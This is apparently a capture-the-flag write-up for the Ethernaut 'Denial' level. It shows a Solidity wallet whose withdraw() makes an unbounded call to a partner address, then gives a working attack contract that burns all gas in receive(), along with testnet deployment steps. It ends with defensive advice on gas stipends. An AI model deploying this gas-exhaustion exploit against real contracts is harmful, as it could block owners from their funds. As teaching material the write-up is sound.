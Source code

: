 # 20 - Denial

## Challenge

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

## Summary

This level is about understanding how the `call` function works, and how it can be used to deny the owner from withdrawing funds. With experience from past levels, we can instantly spot the vulnerability: `withdraw()` does not detect and disallow execution of some unknown external contract code through `call` method.

Since we want `withdraw()` to be reverted, we also notice that `call` did not set a gas limit that external call can use, this allows us to consume all gas in some `receive` of attack contract.

So what function we choose to burn all the gas? I searched online and found out we can use a for loop and increase some variable indefinitely. This will consume all gas and revert the transaction.

## Walkthrough

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import compile_sol
>>> conn = Connection("https://goerli.infura.io/v3/<key>")
>>> account = conn.account("<priv_key>")
>>> contract_addr = '0x41F06bb6144DBd54A216B599e26Fc550Bdb2C70C'
```

Deploy the attack contract:

```py
>>> abi, bytecode = compile_sol('''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    uint256 n;

    receive() external payable {
        while (gasleft() > 0) {
            n += 1;
        }
    }
}
''',
solc_version="0.8.17",
base_path="Ethernaut/node_modules/"
)['Attack']
>>> attackContract = conn.contract(account, abi=abi, bytecode=bytecode)
>>> attackContract.deploy(contract_addr)
2023-06-29 22:11:09.749 | DEBUG    | cheb3.contract:deploy:94 - Deploying contract ...
2023-06-29 22:11:15.036 | INFO     | cheb3.contract:deploy:99 - The contract is deployed at 0x85ad7Af1b3ce9E562c814B5a45a359Cb4Eb13d52
```

Now we just set `partner`:

```js
> await contract.setWithdrawPartner("0x85ad7Af1b3ce9E562c814B5a45a359Cb4Eb13d52")
```

Finally, submit the instance to pass the level.

## Afterword

This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.

If you are using a low level call to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.

Typically one should follow the [checks-effects-interactions](https://docs.soliditylang.org/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.